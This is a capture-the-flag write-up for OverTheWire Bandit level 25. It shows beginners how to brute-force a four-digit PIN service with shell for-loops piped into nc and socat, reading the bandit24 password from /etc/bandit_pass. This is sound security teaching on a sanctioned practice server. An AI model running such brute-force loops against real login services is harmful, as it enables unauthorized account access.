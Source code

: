 # OverTheWire - Bandit - Level 25

[OverTheWire](https://overthewire.org) offers a series of "wargames" that teach
security skills. From their website:

> The Bandit wargame is aimed at absolute beginners. It will teach the basics
> needed to be able to play other wargames.

## Challenge Overview

This challenge provides a server running on port 30002. It takes the `bandit24`
password plus a four digit PIN, and if both are correct then the `bandit25`
password is returned. The hints are that it needs to be brute forced, and that a
new connection is not needed for each guess.

Then use `ssh` to log into the server as the `bandit24` user.

## Commands Used to Solve This Challenge

- `cat`: concatenate files and print on the standard output
- `ls`: list directory contents
- `ssh`: OpenSSH remote login client

## Initial Analysis

This is a new type of challenge, to brute force a PIN by trying every
combination. For a four digit PIN there are 10,000 combinations so the
"keyspace" is reasonable for brute forcing. A new connnection is not needed for
each guess, and that will reduce the time to try all the combinations.

The information from the previous challenge is used to `ssh` into the server.

## Understanding the Challenge

This challenge introduces the concept of "brute force". When passwords or PINs
are short enough that it's possible to try every value, then brute force is
often an option.

## Approach Strategy

1. Log in using `ssh`
1. Connect to port 30002 to see how it works
1. Come up with a way to brute force the PIN

## Step-by-Step Solution

The login information from the previous challenge is used to get a shell as user
`bandit23`. Using `nc` to connect to port 30002 gives:

```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
guitarwolf 1234
Wrong! Please enter the correct current password and pincode. Try again.
basswolf 5678
Wrong! Please enter the correct current password and pincode. Try again.
^C
bandit24@bandit:~$
```

OK, so now the format is known, and the question is how to generate the 10,000
PINs. The `for` loop is a common way to iterate through things, so it is
naturally available as a shell command. Start with the first three values as it
is easier to work with:

```
bandit24@bandit:~$ for i in {0000..0002}; do echo $i; done
0000
0001
0002
bandit24@bandit:~$
```

That's a great start. The `for` loop syntax takes a little time to remember, but
it is powerful.This is looking good, so now to try it with the server using a
dummy password:

```
bandit24@bandit:~$ for i in {0000..0002}; do echo password $i; done | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
^C
bandit24@bandit:~$
```

Nice! Now if there are 9,999 responses that are wrong and one that's right, it
is a bit of a pain to scroll through the output. The `grep` command can be used
to remove output, although this is a bit risky since the output for the correct
answer is unknown:

```
bandit24@bandit:~$ for i in {0000..0002}; do echo password $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
^C
bandit24@bandit:~$
```

It looks like it's ready to go. The only thing needed is to use the real
password. Shell scripting can run sub-shells using the `$(command)` syntax. So
to `cat` the `bandit24` password it would be:

```
bandit24@bandit:~$ for i in {0000..9999}; do echo $(cat /etc/bandit_pass/bandit24) $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is [REMOVED: BANDIT25 PASSWORD]

bandit24@bandit:~$
```

This worked, although it took nearly a minute to reach the correct PIN. While
the script is running it's unsure if it's still trying PIN combinations, or if
something went wrong and the server is waiting for input. The important thing is
that it worked!

Note that while the password _could_ be used as a literal value in the command,
that is not a secure way to do things. Any other user on the server can look at
the processes being run - including the command line arguments.

To confirm that the password is correct, disconnect from the server and then
reconnect using the `bandit25` user and the found password (`/etc/issue` and
`/etc/motd` removed):

```
bandit24@bandit:~$
logout
Connection to bandit.labs.overthewire.org closed.
$ ssh bandit25@bandit.labs.overthewire.org -p 2220
[REMOVED: /etc/issue]
bandit25@bandit.labs.overthewire.org's password:
[REMOVED: /etc/motd]
bandit25@bandit:~$
```

## Key Takeaways

Brute forcing is an important part of security. For example, you would never use
a single digit PIN for a credit card, as it would be too easy to try all 10
possibilities. With computers able to try guesses at incredible speed, the
"keyspace" of possible keys needs to be large enough that brute force is not an
option.

## Beyond the Flag

It's good practice to solve things in different ways. What are some other ways
to solve this challenge?

Perhaps this could be done using `socat` instead of `nc`? The `socat` command
works very similarly to `nc` for TCP connections, but also works with a wide
variety of other data sources and sinks. It's a good tool to learn.

```
bandit24@bandit:~$ for i in {0000..9999}; do echo $(cat /etc/bandit_pass/bandit24) $i; done | socat - TCP:localhost:30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is [REMOVED: BANDIT25 PASSWORD]

bandit24@bandit:~$
```

